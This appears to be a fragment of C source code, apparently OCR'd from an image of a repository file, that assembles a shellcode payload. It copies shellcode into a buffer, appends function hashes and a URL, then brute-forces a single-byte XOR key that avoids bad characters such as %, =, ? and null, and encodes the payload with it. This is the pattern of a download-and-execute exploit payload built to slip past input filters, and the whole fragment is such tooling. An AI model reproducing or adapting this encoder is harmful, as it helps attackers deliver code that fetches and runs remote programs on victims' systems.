  memcpy(sc, pSc_addr, Sc_len); // Copy shellcode to sc[]

 // Add functions hash
 memcpy(sc+Sc_len, (char *)dwHash, dwHashSize);
 Sc_len += dwHashSize;

 // Add url
 memcpy(sc+Sc_len, url, strlen(url)+1);
 Sc_len += strlen(url)+1;

 // Print the size of shellcode.
 //printf("[+] %d + %d + %d = %d bytes shellcode
", DECODE_LEN, Sc_len-DECODE_LEN-sizeof(url)+1, sizeof(url)-1, Sc_len);
 // Print shellcode
 //PrintSc(sc, Sc_len);

 // Deal with find the right XOR byte
 for(i=0xff; i>0; i--)
 {
 l = 0;
 for(j=DECODE_LEN; j<(int)Sc_len; j++)
 {
 if (
 ((sc[j] ^ i) == 0x26) || //%
 ((sc[j] ^ i) == 0x3d) || //=
 ((sc[j] ^ i) == 0x3f) || //?
 ((sc[j] ^ i) == 0x40) || //@
 ((sc[j] ^ i) == 0x00) ||
 ((sc[j] ^ i) == 0x0D) ||
 ((sc[j] ^ i) == 0x0A)
 ) // Define Bad Characters
 {
 l++; // If found the right XOR byte，l equals 0
 break;
 };
 }

 if (l==0)
 {
 Enc_key = i;

 //printf("[+] Find XOR Byte: 0x%02X
", i);
 for(j=DECODE_LEN; j<(int)Sc_len; j++)
 {
 sc[j] ^= Enc_key;
 }

 break; // If found the right XOR byte, Break
 }
 }

 // Deal with not found XOR byte
 if (l!=0)
 {
 printf("[-] No xor byte found!
");
 exit(-1);
 }
